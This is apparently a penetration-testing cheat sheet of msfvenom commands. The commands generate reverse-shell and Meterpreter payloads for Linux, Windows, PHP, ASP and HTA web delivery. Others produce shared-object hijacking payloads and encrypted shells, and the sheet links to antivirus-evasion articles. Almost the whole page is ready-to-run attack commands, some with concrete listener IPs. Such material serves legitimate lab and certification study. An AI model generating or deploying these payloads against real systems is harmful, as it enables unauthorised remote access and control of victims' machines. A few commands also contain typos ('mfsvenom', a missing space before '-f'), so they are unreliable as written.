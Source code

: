 Payload Cheatsheet:

https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom

https://web.archive.org/web/20220314040948/https://netsec.ws/?p=331

AV Bypass Articles:

https://securityboulevard.com/2020/02/evading-antivirus-with-better-meterpreter-payloads/

## Generic Payloads:
```
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.49.208 LPORT=4444-f raw > shell.sh
```

Linux:(Staged)
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
msfvenom -p linux/x64/shell/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

(Inline)
```
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
mfsvenom -p linux/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

## Windows(Reverse Shells):

(PowerShell)
```
msfvenom -p windows/x64/powershell_reverse_tcp LHOST=172.16.169.198 LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/powershell_reverse_tcp LHOST=172.16.169.198 LPORT=4444 -f exe > reverse.exe
```

(Inline)
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.169.198 LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/shell_reverse_tcp LHOST=172.16.169.198 LPORT=4444 -f exe > reverse.exe
```

(Staged)
```
msfvenom -p windows/x64/shell/reverse_tcp LHOST=172.16.169.198 LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/shell/reverse_tcp LHOST=172.16.169.198 LPORT=4444 -f exe > reverse.exe
```



## Web Payloads:

HTA Payloads
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.204 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```

PHP Payloads
```
msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
```

ASP Payloads
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

## Hijacking shared objects:
```
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=<attacker IP> LPORT=<attacker LPORT> -f elf-so -o program_name.so
```

## Meterpreter Payloads:

(Windows)

(Staged)
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.169.198 LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.169.198 LPORT=4444 -f exe > reverse.exe
```

(Inline)
```
msfvenom -p  windows/x64/meterpreter_reverse_tcp LHOST=172.16.169.198 LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/meterpreter_reverse_tcp  LHOST=172.16.169.198 LPORT=4444 -f exe > reverse.exe
```

Encrypted shells:

(staged)
```
msfvenom -p windows/encrypted_shell/reverse_tcp LHOST=172.16.169.198 LPORT=4444 -f exe > reverse.exe
```

(Inline)
```
msfvenom -p windows/encrypted_shell_reverse_tcp LHOST=172.16.169.198 LPORT=4444 -f exe > reverse.exe
```
